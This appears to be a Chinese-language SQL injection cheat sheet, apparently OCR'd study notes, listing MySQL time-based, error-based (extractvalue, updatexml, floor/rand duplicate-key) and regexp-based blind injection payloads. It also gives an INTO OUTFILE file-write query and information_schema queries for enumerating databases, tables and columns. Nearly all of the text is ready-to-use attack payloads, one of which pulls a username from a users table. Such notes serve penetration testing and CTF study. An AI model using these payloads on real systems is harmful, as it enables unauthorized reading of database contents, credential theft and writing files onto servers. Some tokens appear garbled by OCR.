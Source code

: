 
**Time-Based**

BENCHMARK(count,func())

sleep()

if(a,t,f)      	 	//同a?t:f



**Wrong-Based**

使用group by对rand()函数操作时会返回duplicate key error

rand(int)   	//以int为种子生成伪随机数

floor()     	//向下取整

count()     	//统计个数

+ and extractvalue(1, concat(0x25, (select table_name from information_schema.tables limit 1))); 

+ and 1=(updatexml(1,concat(0x25,(select user())),1))

+ and(select 1 from(select count(*),concat((select (select (select concat(0x25,(select username from users where id=1),0x25))) from 
information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)#



**正则注入**

Mysql中的RE和大多数编程语言中的相同，不赘述

`select user() regexp '^[a-z]'`     正确时返回1，错误返回0

`select * from * where id =1 and 1=(user() regexp '^[a-z]{4}')`

regexp可替换为like



**操作文件**

`and (select count(*) from mysql.user)>0`    //返回正常说明有读取权限

`select * INTO OUTFILE 'file_name'`     //写入文件，文件不能存在



爆数据库 `select schema\_name from information_schema.schemata `

爆某库的数据表 `select table\_name from information\_schema.tables where table\_schema=’xxxxx’ `

爆某表的所有列 `select column\_name from information\_schema.columns where table\_name=’xxxxx’` 

获取某列的内容 `select xx\_column from xx\_table `

列出所有的数据库 `select group\_concat(schema\_name) from information\_schema.schemata `

列出某个库当中所有的表 `select group\_concat(tabl\e_name) from information\_schema.tables where table\_schema='xxxxx'`



系统数据库——information_schema，包含所有数据库相关信息
